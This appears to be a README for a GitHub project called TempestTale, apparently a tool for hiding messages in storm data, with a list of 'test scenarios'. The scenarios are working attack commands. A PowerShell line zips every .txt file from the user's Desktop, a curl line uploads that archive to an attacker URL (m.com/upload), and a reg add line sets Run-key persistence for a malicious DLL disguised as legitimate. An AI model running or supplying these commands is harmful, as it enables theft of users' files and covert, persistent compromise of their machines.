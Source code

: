 # TempestTale
Tempest refers to a violent storm, hinting at messages being hidden within storm data.


## Requirements

To install all necessary dependencies, run the following command:

```bash
pip install -r requirements.txt


## Scenarios

1º Test - Obtaining all .txt files from the Desktop

powershell -c "Compress-Archive C:\\Users\\%USERNAME%\\Desktop\\*.txt C:\\Temp\\data.zip


2º Test - Uploading those .txt files to an Attackers' URL

curl -F 'file=@C:\\Temp\\data.zip' http://m.com/upload"


3 Test - Creating Persistence by Adding a Malicious DLL Disguised as Legitimate to the Windows Registry Key to Execute at System Startup

powershell -c "reg add HKCU\\Run /v a /t REG_SZ /d 'rundll32 c:\\mscoree.dll,a' /f"

4º Test - Random String that Could be Information to Update the Malware or a New Plugin

e3fbc1a0d292e4a93b1f4c7d2c60f90b3a7d925c312e8b4e8abf2d0f61778
